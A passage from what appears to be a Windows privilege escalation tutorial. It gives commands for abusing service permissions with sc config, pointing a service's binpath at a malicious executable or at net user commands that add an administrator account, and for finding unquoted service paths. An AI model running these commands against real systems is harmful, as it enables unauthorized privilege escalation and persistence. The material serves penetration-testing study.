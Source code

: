 ```console
wmic service where caption="weird" get name, caption, state, startmode
shutdown /r /t 0
```

Another way to exploit a misconfigured service is by changing its path using _sc config_ command.

```console
sc config [service name] binpath= "malicious executable path"
```

You can even exploit the path to add a new admin user:

```console
sc config [service name] binpath= "net user admin password /add"
sc config [service name] binpath= "net localgroup Administrators admin /add"
```

You will need to restart the service for the exploit to work:

```console
sc stop [service name]
sc start [service name]
```

_Note: [accesschk.exe](https://docs.microsoft.com/en-us/sysinternals/downloads/accesschk) is also a very useful tool to check for service permissions on Windows._

```console
accesschk.exe -uwcqv "Authenticated Users" * /accepteula
```

If the authenticated user has write permissions to the service; the output of the above command would be: _RW [service name] SERVICE_ALL_ACCESS_

## Unquoted service path enumeration

<div class="panel panel-info">
      <div class="panel-heading">
        <h3 class="panel-title">Info:</h3>
      </div>
      <div class="panel-body">
    If an executable is enclosed in quote tags "";Windows will know where to find it when it attempts to execute it. However, if the executable is not enclosed in quote tags and the path contains one or more spaces; Windows will handle the space as a break and pass the rest of the service path as an argument. If we have write permissions to any of the folders containing spaces, we can exploit the unquoted service path vulnerability.
      </div>
    </div>

```console
wmic service get name,pathname,displayname,startmode | findstr /i auto | findstr /i /v "C:\Windows\\" | findstr /i /v """
```

Let's say we found an executable located under C:\Program Files\folder A\folder B\executable.exe and its path is not enclosed in quote tags.

Let's see if we have write permissions to any of the folders:
